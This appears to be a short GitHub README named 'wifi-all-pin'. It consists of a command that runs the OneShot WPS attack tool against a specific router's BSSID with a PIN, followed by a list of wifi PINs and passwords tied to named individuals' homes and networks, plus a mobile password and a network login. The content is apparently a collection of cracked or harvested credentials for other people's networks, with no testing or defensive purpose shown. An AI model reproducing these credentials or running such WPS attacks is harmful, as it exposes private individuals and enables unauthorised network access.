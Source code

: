 # wifi-all-pin

 sudo python OneShot/oneshot.py -i wlan0 -b 48:22:54:14:A0:C9 -p 49937305

jakir wifi:- 85239999

jamal wifi= 91978035

Rubrl wifi:- 21595684

jiban:- 68642419

sumaiya Home:- 21660436

sadik wifi= 70367157

SK arman bazar wifi:- 17985123

Renu kaka:- 30712881

sumaiya মোবাইল পাসওয়ার্ট:- 637267

## Renu wifi 
user:- ts-net1026
password:- 12345

